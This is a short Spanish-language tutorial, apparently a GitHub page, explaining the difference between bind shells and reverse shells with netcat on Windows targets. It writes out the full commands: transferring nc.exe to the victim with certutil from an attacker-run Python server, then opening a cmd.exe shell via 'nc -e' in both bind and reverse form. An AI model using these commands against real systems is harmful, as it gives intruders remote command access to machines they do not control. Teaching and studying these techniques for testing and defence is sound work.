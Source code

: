 Una bind shell es cuando el atacante se conecta mediante netcat a un cliente netcat corriendo en un puerto en la máquina víctima. El principal problema de esto es que normalmente el firewall bloquea las conexiones entrantes por lo que es preferido por parte de los atacantes usar reverse_shells.


## Cómo crear una bind_shell

1. Si no tiene instalada la máquina víctima netcat por defecto, como en el caso de windows, debemos transferir el binario. Para ello, por ejemplo vamos a la ruta /usr/share/windows-binaries y creamos un servidor simple con python `python -m SimpleHTTPServer 80`. En la máquina víctima usamos `certutil -urlcache -f http://ipdelamaquinaatacante/nc.exe nc.exe`. Ya disponemos del binario en la máquina víctima.
2. Ahora nos ponemos por escucha en la máquina target mediante: `nc -nvlp 1234 -e cmd.exe` el parámetro -e es para ejecutar un programa en este caso un cmd por lo que las máquinas que se conecten obtendrán un cmd.
3. Nos ejecutamos desde la máquina atacante con nc cliente al nc servidor de la máquina target. `nc -nv <ipmaquinavictima> 1234`
4. Listo ya tenemos acceso mediante una bindshell.

### Cómo crear una reverse_shell

1. En la máquina atacante nos ponemos en escucha : `nc -nvlp 1234.
2. Si no tiene instalada la máquina víctima netcat por defecto, como en el caso de windows, debemos transferir el binario. Para ello, por ejemplo vamos a la ruta /usr/share/windows-binaries y creamos un servidor simple con python `python -m SimpleHTTPServer 80`. En la máquina víctima usamos `certutil -urlcache -f http://ipdelamaquinaatacante/nc.exe nc.exe`. Ya disponemos del binario en la máquina víctima.
3.  Nos conectamos a la máquina atacante desde la máquina víctima y ejecutamos un cmd.exe `nc -nv <ipatacante> 1234 -e cmd.exe`
4. Listo ya tenemos una reverse shell ya que la máquina target se conectó a nosotros y ejecutó un cmd.exe

